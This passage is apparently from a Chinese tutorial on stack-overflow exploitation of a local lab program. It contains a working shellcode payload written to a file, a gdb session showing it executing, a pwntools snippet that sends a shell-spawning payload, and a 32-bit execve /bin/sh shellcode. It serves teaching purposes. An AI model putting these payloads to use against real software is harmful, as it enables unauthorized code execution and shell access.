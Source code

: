 !!! info "小端顺序"
	在python中， 小端顺序可以直接用 `p64` 函数转换(在32位系统中用`p32`)

上图中的栈上的所有字节码就是我们需要输入给 scanf 函数的字符串，这个字符串一般称为 shellcode 。由于这段 shellcode 中有很多无法通过键盘输入的字节码，因此用 python 将其打印至文件中：

```shell
$ python -c 'print "\xeb\x1e\xb8\x01\x00\x00\x00\xbf\x01\x00\x00\x00\x5e\xba\x05\x00\x00\x00\x0f\x05\xb8\x3c\x00\x00\x00\xbf\x00\x00\x00\x00\x0f\x05\xe8\xdd\xff\xff\xff\x48\x61\x63\x6b\x21" + "\x00"*30 + "\x00\xe1\xff\xff\xff\x7f\x00\x00"' > shellcode
```

现在可以对 victim 进行攻击了，不过目前只能在 gdb 的调试环境下进行攻击。输入 _**gdb -q ./victim**_ ，再输入 _**run < shellcode**_：

```shell
$ gdb -q ./victim
Reading symbols from ./victim...done.
(gdb) run < shellcode
Starting program: /home/hcj/blog/rop/ch02/victim < shellcode
What's your name?Hello, ��!
Hack![Inferior 1 (process 2711) exited normally]
(gdb) 
```

可以看到 shellcode 已经顺利的被执行，栈溢出攻击成功。

编写 shellcode 需要注意两个事情：

- （1）为了使 shellcode 被 scanf 函数全部读取， shellcode 中不能含有空格字符（包括空格、回车、Tab键等），也就是说不能含有 _**\x10、\x0a、\x0b、\x0c、\x20**_ 等这些字节码，否则 shellcode 将会被 _**截断**_ 。如果被攻击的程序使用 gets、strcpy 这些字符串拷贝函数，那么 shellcode 中不能含有 _**\x00**_ 。
- （2）由于 shellcode 被加载到栈上的位置不是固定的，因此要求 shellcode 被加载到任意位置都能执行，也就是说 shellcode 中要使用 _**相对寻址**_ 。


网上有非常多的 shellcode 可以参考使用，在这里可以直接使用 pwntools 自带的：

```python
from pwn import *

sc_asm = shellcraft.sh() # 汇编格式
sc = asm(sc_asm) # 比特流格式

p.sendafter(b"what's your name: \n", sc.ljust(64, b"\x90"))
# 向右补齐64位，按实际需求修改
```

最简单的 SHELLCODE 如下

```python
sc = (
	b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
	b"\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
).ljust(length,b'\x90')
```


